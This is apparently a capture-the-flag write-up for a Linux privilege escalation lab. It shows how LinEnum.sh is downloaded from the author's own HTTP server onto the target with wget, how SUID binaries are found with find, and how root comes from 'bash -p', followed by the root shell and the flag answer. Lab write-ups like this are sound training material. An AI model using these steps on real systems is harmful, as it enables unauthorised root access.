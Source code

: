 ### IP
`10.10.58.46`

### What type of privilege escalation involves using a user account to execute commands as an administrator?

`vertical`

### With given credential to access box via ssh and once I am in, I can use linpeas or LinEnum scripts to find out possible privilege escalation holes.

- I download one of scripts to my machine
- go to /tmp folder on a box where we have writing rights
- I launch python3 server to share script to others:
`python3 -m http.server`
- on a box, I download a script with 
`wget http://10.2.46.111:8000/LinEnum.sh` and then give it write rights `chmod +x LinEnum.sh`
- I launch the script and check possible holes.

- I can also find out which files have sticky bit with this command:

`find / -perm -u=s -type f 2>/dev/null`

I realized that in this case `/usr/bin/bash` enables an escalation (which is hilarious and very easy scenario) so according to this website:

`https://gtfobins.github.io/#+suid`

I will become root only by typing `bash -p`

```
absh-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# 
```

so finally I get a flag:
```
bash-4.4# cd /root
bash-4.4# ls -al
total 28
drwx------  3 root   root    4096 Dec  8 20:43 .
drwxr-xr-x 24 root   root    4096 Dec  8 15:16 ..
-rw-------  1 root   root     168 Dec  9 15:49 .bash_history
-rw-r--r--  1 root   root    3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root   root     148 Aug 17  2015 .profile
drwx------  2 root   root    4096 Dec  8 16:38 .ssh
-rw-r--r--  1 nobody nogroup   23 Dec  8 20:43 flag.txt
bash-4.4# cat flag.txt
thm{2fb10afe933296592}
```
### What are the contents of the file located at /root/flag.txt?

`thm{2fb10afe933296592}`


